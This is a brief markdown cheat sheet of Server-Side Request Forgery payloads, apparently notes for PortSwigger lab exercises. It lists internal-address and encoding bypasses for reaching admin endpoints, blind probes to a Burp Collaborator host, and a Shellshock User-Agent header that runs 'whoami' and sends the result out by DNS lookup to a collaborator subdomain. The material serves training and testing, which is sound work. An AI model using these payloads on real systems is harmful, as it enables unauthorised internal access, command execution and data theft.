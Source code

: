 # Server-Side Request Forgery - SSRF
> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.

## SSRF Blind
Change every param to: http://subdomain.burpcollaborator.net

## SSRF Reflected
-http://
-http://$domain - http://subdomain.$domain
-http://192.168
-http://127

## PORTSWIGGER
1) search stockApi=http://localhost/admin/delete?username=carlos
2) http://192.168.§0§.§1§:8080/admin
3) http://127.0.0.1/ - http://127.1/ - http://127.1/admin - http://127.1/%2561dmin
4) http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
5) /product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
6) User-Agent: () { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net + Referrer: http://192.168.§0§.§1§:8080,443,80
